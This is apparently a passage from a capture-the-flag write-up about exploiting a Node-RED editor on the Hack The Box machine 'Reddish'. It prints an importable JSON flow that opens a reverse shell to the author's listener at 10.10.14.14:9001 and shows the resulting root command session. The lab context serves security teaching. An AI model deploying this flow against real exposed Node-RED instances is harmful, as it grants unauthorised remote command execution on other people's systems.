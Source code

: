![1532601704680](https://0xdfimages.gitlab.io/img/1532601704680.png)

## Code Execution / Shell in Node-Red

### Flows

In playing around with the editor, I built a few useful flows that will help
with exploitation of Reddish. Flows show up nicely as images, but can also be
imported/exported in json. I’ll provide the json for my flows in case you want
to import and play with them. Just go to the menu, import, clipboard, and
paste in the json.

### Simple Command Shell

The first flow I wrote was a simple loop that would connect back to a `nc`
listener, and then execute whatever it received and return the results:

![1532601840168](https://0xdfimages.gitlab.io/img/1532601840168.png)

It will initiate the connection when the the flow to output `> ` is sent to
stdin of the tcp connection. The TCP connection will come back to me. Then
whatever I send back is sent to `exec`. The output of that is formatted and a
prompt is added, and then sent back into the TCP connection, where I’ll
receive it. Here’s the export:

    
    
    [{"id":"3f7824bc.483a94","type":"tab","label":"Shell","disabled":false,"info":""},{"id":"9754e73a.fb7f5","type":"tcp request","z":"3f7824bc.483a94","server":"10.10.14.14","port":"9001","out":"sit","splitc":" ","name":"","x":520,"y":80,"wires":[["df9367ea.2fd12"]]},{"id":"df9367ea.2fd12","type":"exec","z":"3f7824bc.483a94","command":"","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":170,"y":240,"wires":[["7cd3aeef.1a522"],["7cd3aeef.1a522"],[]]},{"id":"6a48f346.ccad1c","type":"inject","z":"3f7824bc.483a94","name":"","topic":"","payload":"> ","payloadType":"str","repeat":"","crontab":"","once":false,"onceDelay":0.1,"x":191.5,"y":50,"wires":[["9754e73a.fb7f5"]]},{"id":"7cd3aeef.1a522","type":"template","z":"3f7824bc.483a94","name":"results + prompt","field":"payload","fieldType":"msg","format":"handlebars","syntax":"mustache","template":"{{{payload}}}\n> ","output":"str","x":440,"y":240,"wires":[["9754e73a.fb7f5"]]}]
    

On pushing the button, I got a callback and could start to look around:

    
    
    root@kali# nc -lnvp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 51766
    > id
    uid=0(root) gid=0(root) groups=0(root)
    
    > pwd
    /node-red
    
    > ls /home
    node
    